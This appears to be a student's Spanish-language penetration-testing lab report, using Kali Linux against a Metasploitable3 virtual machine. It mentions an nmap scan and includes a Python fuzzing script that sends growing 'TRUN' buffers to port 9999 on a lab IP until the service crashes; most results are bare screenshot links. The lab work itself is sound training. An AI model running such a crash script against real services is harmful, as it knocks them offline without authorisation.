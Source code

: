 ```yaml
---
title: TAREA 03
date: 2024-11-04 23:30:00 -05:00
categories: [recon, kill chain, pentesting]
tags: [map, kali, execution]  # TAG names should always be lowercase
---
```

## Herramientas Utilizadas
- **Kali Linux**: Distribución especializada en pruebas de penetración y ciberseguridad.
- **Metasploitable3**: Máquina virtual vulnerable, usada como objetivo para pruebas de penetración.

## Pasos Realizados y Resultados

### Paso 1: Escaneo de Red con Nmap
Para descubrir los puertos abiertos y servicios activos en Metasploitable3, se realizó un escaneo básico usando `nmap`:

![alt text](/assets/images/Fototarea2/image.png)
![alt text](/assets/images/Fototarea2/image-1.png)
En la ulimt imagen se puede observar que se pierde conexción
Luego de usar el siguiente codigo:

#!/usr/bin/python import sys, socket from time import sleep buffer = "A" * 100 ip_address = '10.0.2.15' while True: try: s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect((ip_address,9999)) s.send(('TRUN /.:/' + buffer).encode(`utf-8`)) s.close() sleep(1) buffer = buffer + "A" * 100 except: print("Fuzzing crash en %s bytes " % str(len(buffer)) ) sys.exit()
![alt text](/assets/images/Fototarea2/image-2.png)
Se muestran los resultados:
![alt text](/assets/images/Fototarea2/image-8.png)
![alt text](/assets/images/Fototarea2/image-3.png)
![alt text](/assets/images/Fototarea2/image-4.png)
![alt text](/assets/images/Fototarea2/image-5.png)
![alt text](/assets/images/Fototarea2/image-6.png)
![alt text](/assets/images/Fototarea2/image-7.png)
![alt text](/assets/images/Fototarea2/image-9.png)
![alt text](/assets/images/Fototarea2/image-10.png)